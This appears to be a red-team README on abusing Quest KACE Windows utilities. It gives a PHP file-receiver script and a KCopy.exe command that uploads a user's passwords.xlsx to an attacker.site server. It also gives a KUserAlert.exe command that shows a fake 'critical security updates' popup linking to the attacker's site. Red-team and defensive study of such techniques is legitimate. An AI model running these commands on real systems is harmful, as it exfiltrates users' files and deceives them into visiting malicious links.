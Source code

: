 # kace-abuse
Using KACE (Quest) Windows utilities for Red Teaming.

Two examples of abusing KACE command line utilities.  The first example leverages `KCopy.exe` to upload a file to a remote web server through HTTP PUT.  The second example leverages `KUserAlert.exe` to produce a popup alert on the user's desktop, prompting them to click on a malicious link.

**Uploading a file**<br />
Create an upload page on your attacking web server to receive the file.  This example uses PHP `recv_file.php`.

```php
<?php
$fl = fopen('/php_upload_path/recv_file.out', 'w');
$pd = fopen("php://input", "r");
while ($d = fread($pd, 1024))
   fwrite($fl, $d);
fclose($fl);
fclose($pd);
?>
```

Execute the KACE utility to upload a file.

`"C:\Program Files (x86)\Quest\KACE\KCopy.exe" %USERPROFILE%\Documents\passwords.xlsx https://attacker.site/recv_file.php`

![alt text](https://github.com/billchaison/kace-abuse/blob/master/k00.png)

**Creating a popup message**<br />

`"C:\Program Files (x86)\Quest\KACE\KUserAlert.exe" -name="IMPORTANT MESSAGE" -message="Your computer is missing critical security updates.  Click here to install them as soon as possible, https://attacker.site" -title="Mandatory Software Patches Required" -ok`

![alt text](https://github.com/billchaison/kace-abuse/blob/master/k01.png)

![alt text](https://github.com/billchaison/kace-abuse/blob/master/k02.png)

